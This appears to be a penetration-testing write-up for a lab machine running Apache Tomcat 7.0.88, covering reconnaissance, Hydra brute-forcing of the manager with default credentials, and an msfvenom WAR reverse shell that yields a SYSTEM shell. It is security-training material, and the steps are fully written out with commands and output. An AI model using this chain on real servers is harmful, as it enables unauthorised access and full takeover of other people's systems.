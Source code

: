 # Tomcat Manager

## Recon

Tomcat is running with an HTTP Proxy:

```bash
❯ nmap -p- -n -Pn --min-rate 5000 -oG scans/nmap-tcpfast 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 13:53 EDT
Nmap scan report for 10.10.10.95
Host is up (0.083s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 26.47 seconds
```

Apache Tomcat has been found:

```bash
❯ sudo nmap -sCV -p 8080 -n -Pn -oG scans/nmap-tcpscripts 10.10.10.95
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 13:56 EDT
Nmap scan report for 10.10.10.95
Host is up (0.078s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.86 seconds
```

## Web Fingerprinting

We can use curl to enumerate the headers:

```bash
❯ curl -I http://10.10.10.95:8080
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Type: text/html;charset=ISO-8859-1
Transfer-Encoding: chunked
Date: Sun, 15 Aug 2021 01:28:24 GMT
```

With _**whatweb**_ we can identify multiple web technologies:

```bash
❯ whatweb -a 3 -v http://10.10.10.95:8080
WhatWeb report for http://10.10.10.95:8080
Status    : 200 OK
Title     : Apache Tomcat/7.0.88
IP        : 10.10.10.95
Country   : RESERVED, ZZ

Summary   : HTML5, Apache, HTTPServer[Apache-Coyote/1.1]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and
        maintain an open-source HTTP server for modern operating
        systems including UNIX and Windows NT. The goal of this
        project is to provide a secure, efficient and extensible
        server that provides HTTP services in sync with the current
        HTTP standards.

        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ HTML5 ]
        HTML version 5, detected by the doctype declaration


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to
        identify the operating system from the server header.

        String       : Apache-Coyote/1.1 (from server string)

HTTP Headers:
        HTTP/1.1 200 OK
        Server: Apache-Coyote/1.1
        Content-Type: text/html;charset=ISO-8859-1
        Transfer-Encoding: chunked
        Date: Sun, 15 Aug 2021 01:28:13 GMT
        Connection: close
```

## Tomcat

The tomcat default web page is the following:

![Apache Tomcat](../../.gitbook/assets/apache-tomcat.png)

HTTP Basic Authentication in Tomcat:

![HTTP Basic Authentication](../../.gitbook/assets/tomcat-authentication.png)

The HTTP Authorization header after submitting credentials:

![Authorization Header](../../.gitbook/assets/authorization-header.png)

Base64 Decode the value of the Authorization header:

![Base64 Decode Authorization Header Value](../../.gitbook/assets/base64-decode.png)

**Server Manager** and **Manager App:**

![](../../.gitbook/assets/manager-gui-401.png)

**Host Manager:**

![](../../.gitbook/assets/admin-gui-401.png)

### Tomcat After Failed Authentication

When we visit another manager directory the authorization header is automatically prepended however, the other directory has different credentials so we receive an HTTP 401 unauthorized status code. We have to remove the following header highlighted in red:

![](../../.gitbook/assets/authorization-header-prepend.png)

After removing the Authorization header we will be promped with HTTP Basic Authentication prompt:

![](../../.gitbook/assets/http-basic-after-remove-authorization-header.png)

### Tomcat Bruteforce

```bash
❯ HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-14 14:20:53
[INFO] Using HTTP Proxy: http://127.0.0.1:8080
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-14 14:20:55
```

```bash
❯ HYDRA_PROXY_HTTP=http://127.0.0.1:8080 hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt -s 8080 10.10.10.95 http-get /manager/html
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-14 14:28:36
[INFO] Using HTTP Proxy: http://127.0.0.1:8080
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-14 14:28:38
```

### Tomcat Manager App Reverse Shell

![](../../.gitbook/assets/tomcat-manager-app.png)

I’ll use msfvenom to create a windows reverse shell that can be caught with nc:

```text
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.185 LPORT=9002 -f war > rev_shell-9002.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of war file: 52237 bytes
```

I’ll also need to know the name of the JSP page to activate it with curl. I’ll use jar to list the contents of the war.

```text
❯ jar -ft rev_shell-9002.war
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
qduissimtg.jsp
```

> Note: qduissimtg.jsp is the file that we'll need to execute after we upload the WAR file.

I'll set up a listener with nc:

```text
❯ nc -lvnp 9002
```

Now upload through the manager application:

![WAR File Upload](../../.gitbook/assets/tomcat-upload.png)

Then curl the page at:

```text
❯ curl http://10.10.10.95:8080/rev_shell-9002/qduissimtg.jsp
```

We receive a reverse shell:

```text
❯ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.185] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

